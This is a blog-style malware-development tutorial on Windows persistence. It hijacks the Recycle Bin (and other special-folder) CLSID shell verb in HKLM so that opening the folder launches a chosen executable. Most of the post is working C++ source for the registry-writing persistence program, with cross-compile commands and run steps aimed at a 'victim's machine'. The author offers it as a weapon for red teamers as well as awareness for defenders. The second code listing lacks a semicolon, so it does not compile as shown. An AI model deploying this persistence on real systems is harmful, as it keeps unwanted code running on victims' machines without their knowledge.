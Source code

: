 ```yaml
---
title:  "Malware development: persistence - part 21. Recycle Bin, My Documents COM extension handler. Simple C++ example."
date:   2023-01-20 01:00:00 +0300
header:
  teaser: "/assets/images/85/2023-01-20_00-28.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/85/2023-01-20_00-28.png){:class="img-responsive"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via modifying Recycle Bin COM extension handling.     

### CLSID list

Certain special folders within the operating system are identified by unique strings:      

- `{20d04fe0-3aea-1069-a2d8-08002b30309d}` - My Computer     
- `{450d8fba-ad25-11d0-98a8-0800361b1103}` - My Documents     
- `{208d2c60-3aea-1069-a2d7-08002b30309d}` - My Network Places     
- `{1f4de370-d627-11d1-ba4f-00a0c91eedba}` - Network Computers     
- `{2227a280-3aea-1069-a2de-08002b30309d}` - Printers and Faxes      
- `{645ff040-5081-101b-9f08-00aa002f954e}` - Recycle Bin       

Adding the `open\command` subkey to the CLSID and adding a new verb for the `shell` key will execute the value stored in the `\command` entry.      

### practical example

Let's go to look at a practical example. First of all, as usually, create "evil" application. For simplicity, as usually, it's `meow-meow` messagebox application (`hack.cpp`):  

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And, then just create persistence script (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = "SOFTWARE\\Classes\\CLSID\\{645FF040-5081-101B-9F08-00AA002F954E}\\shell";

  // evil app
  const char* exe = "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // update registry key value
      // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command”
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, the logic is simple.    

### demo

Let's go to see everything in action. First of all, check Registry:      

```powershell
reg query "HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" /s
```

![pers](/assets/images/85/2023-01-19_23-39.png){:class="img-responsive"}    

Then, compile our "malware" at the attacker's machine (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/85/2023-01-19_23-16.png){:class="img-responsive"}    

And for checking correctness, try to run `hack.exe` at the victim's machine (`Windows 10 x64` in my case):    

```powershell
.\hack.exe
```

![pers](/assets/images/85/2023-01-19_23-49.png){:class="img-responsive"}    

As you can see, our "malware" works perfectly.    

At the next step, just compile our persistence script at the attacker's machine:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/85/2023-01-19_23-35.png){:class="img-responsive"}    

Finally, run this persistence script at the victim's machine and check Registry again:     

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" /s
```

![pers](/assets/images/85/2023-01-20_00-19.png){:class="img-responsive"}    

So, as you can see, subkey added and the key value is set.    

Then, try to open Recycle Bin:    

![pers](/assets/images/85/2023-01-20_00-25.png){:class="img-responsive"}    

![pers](/assets/images/85/2023-01-20_00-25_1.png){:class="img-responsive"}    

If we open `ProcessExplorer` and see properties of `hack.exe`:     

![pers](/assets/images/85/2023-01-20_06-59.png){:class="img-responsive"}    

we can notice that its parent process is `explorer.exe (1680)`.     

Perfect! =^..^=

### what about another CLSID from the list?    

I made a small change to the persistence script:      

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = "SOFTWARE\\Classes\\CLSID\\{450d8fba-ad25-11d0-98a8-0800361b1103}\\shell"

  // evil app
  const char* exe = "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // update registry key value
      // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{450d8fba-ad25-11d0-98a8-0800361b1103}\shell\open\command”
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}

```

Compile and run at the victim's machine:      

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Classes\CLSID\{450d8fba-ad25-11d0-98a8-0800361b1103}\shell" /s
```

![pers](/assets/images/85/2023-01-20_07-09.png){:class="img-responsive"}    

But... Not working for me at Windows 10 as they use that stupid Start Menu, I can't find `My Documents` folder on the Desktop feature.    

I also try to do this trick with another CLSID at the `Windows 7 x86` machine. It works for `My Computer` folder.     

![pers](/assets/images/85/2023-01-20_07-22.png){:class="img-responsive"}    

![pers](/assets/images/85/2023-01-20_07-35.png){:class="img-responsive"}    

I don’t know if any APT groups or malware family applies this trick.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

> This is a practical case for educational purposes only.      

[Malware persistence: part 1](/tutorial/2022/04/20/malware-pers-1.html)       
[source code in github](https://github.com/cocomelonc/2023-01-20-malware-pers-21)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
